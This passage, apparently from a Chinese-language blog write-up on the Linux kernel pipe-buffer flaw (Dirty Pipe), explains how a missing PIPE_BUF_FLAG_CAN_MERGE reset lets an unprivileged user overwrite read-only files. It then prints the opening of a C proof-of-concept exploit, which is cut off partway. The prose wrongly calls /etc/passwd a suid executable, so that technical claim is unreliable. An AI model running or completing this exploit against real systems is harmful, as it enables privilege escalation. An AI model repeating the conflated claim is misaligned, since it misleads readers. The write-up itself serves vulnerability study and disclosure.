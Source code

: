 而在[@`__copy_to_page_iter_pipe`](https://elixir.bootlin.com/linux/v5.16.10/source/lib/iov_iter.c#L384)中，可以清晰看到，文件映射页被直接作为缓冲区使用。但在查看相关执行流程时，我们并没有看到文件映射页面被载入到缓冲区时重置`PIPE_BUF_FLAG_CAN_MERGE`标志位的情况，也就是说，如果管道缓冲区已经被完全读写过一次，就可以通过向管道写入数据的方式向文件映射页写入数据！

通过上面的分析，我们不难发现，Linux内核开发人员为了提高效率，选择在文件映射后直接将映射页作为缓冲区，但却并没有移除写权限。See？这看似是一种非常低级的开发安全问题，但却能实实在在地存在于Linux内核中并影响众多发行版。

通过该漏洞，我们可以修改只读文件。在普通用户权限下，可以通过修改/etc/passwd这种具有suid权限的可执行文件完成提权，如将/etc/passwd修改执行/bin/sh等。

但本漏洞利用有一定的限制，考虑到要将文件调入，因此至少需要读取文件的第1个字节，故文件的第1个字节不允许修改；不能通过该漏洞将文件变大；最多只能写入1页内容。在本文的主要参考资料中，/etc/passwd被修改为一个小型elf程序而不是shell文件，用于执行/bin/sh。

![](1.png)

# poc
poc来源：[资料](https://xz.aliyun.com/t/11016?time__1311=mqmx0DyDuGYGuD0vo4%2BxOKD8DcAx9GCnYD&alichlgref=https%3A%2F%2Fcn.bing.com%2F#toc-10)（在此%一下Arttnba师傅）

```c
#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/user.h>

void errExit(char * msg)
{
    printf("\033[31m\033[1m[x] Error : \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

int main(int argc, char **argv, char **envp)
{
    long            page_size;
    size_t          offset_in_file;
    size_t          data_size;
    int             target_file_fd;
    struct stat     target_file_stat;
    int             pipe_fd[2];
    int             pipe_size;
    char            *buffer;
    int             retval;

    // checking before we start to exploit
    if (argc < 4)
    {
        puts("[*] Usage: ./exp target_file offset_in_file data");
        exit(EXIT_FAILURE);
    }

    page_size = sysconf(_SC_PAGE_SIZE);
    offset_in_file = strtoul(argv[2], NULL, 0);
    if (offset_in_file % page_size == 0)
        errExit("Cannot write on the boundary of a page!");

    target_file_fd = open(argv[1], O_RDONLY);
    if (target_file_fd < 0)
        errExit("Failed to open the target file!");

    if (fstat(target_file_fd, &target_file_stat))
        errExit("Failed to get the info of the target file!");
```